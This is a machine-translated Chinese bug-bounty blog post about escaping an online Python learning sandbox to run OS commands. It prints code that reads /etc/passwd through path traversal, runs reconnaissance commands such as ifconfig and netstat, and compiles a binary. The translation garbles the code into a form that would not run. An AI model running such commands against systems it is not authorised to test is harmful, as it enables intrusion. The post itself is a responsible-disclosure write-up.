

# 我是如何在学习 PYTHON 时得到我的第一个 RCE 的

> 原文：<https://infosecwriteups.com/how-i-got-my-first-rce-while-learning-python-75f51563309c?source=collection_archive---------2----------------------->

嗨，

我刚刚在 redacted.com 学习 python，而且学了又学…

直到我发现了一个允许我们在网上运行 python 代码并允许我们修改文件的部分，然后我尝试运行 pip，一切都正常工作，我只是想如果我尝试运行一些命令会怎么样？通过操作系统模块？

我尝试了以下代码:

导入 os
os.system('cd ~ ')

a =打开(“../../../../etc/passwd "，" rt ")

打印(a.read())

它的输出是亮着的🔥：

我就想这是怎么回事:

还有什么？我已经在一分钟内报告了它，该公司也实施了修复，修复他们禁止了一些命令😂，但我仍然能够运行一些命令，如:

打印(操作系统(' ps '))

打印(操作系统(' kill -h '))

OS . system(' cat/proc/version ')
OS . system(' cat/proc/partitions ')
OS . system(' cat/proc/SCSI/SCSI ')
OS . system(' cat/proc/meminfo ')

print(OS . system(' ifconfig-a '))
print(OS . system(' IP link show ')
print(OS . system(' netstat '))

我还能够编译 c 和 c++文件，并像这样运行它们:

f = open("anon.cpp "，" w ")
f . write(" # include<iostream>\ n ")
f . write("使用命名空间 std\ n ")
f . write(" int main(){ \ n ")
f . write(" cout<<\ " Hello World \ "；\ n ")
f . write(" return 0；\ n } "
f . close()
OS . system(' g++ anon . CPP-o a ')
OS . system(')。/a’)

可能它会以某种方式导致 RCE，我不确定，但报道了它，他们只是在短短 2 天内修复它..该死的。最后一个网站管理员说:谢谢你的报告，hhahahah🥲

请继续关注更多报道。很快会出版许多。

感谢阅读，请忽略任何错误和我的语法😅，你们可以在 twitter 上关注我: [@__sam0_0](https://twitter.com/__Sam0_0)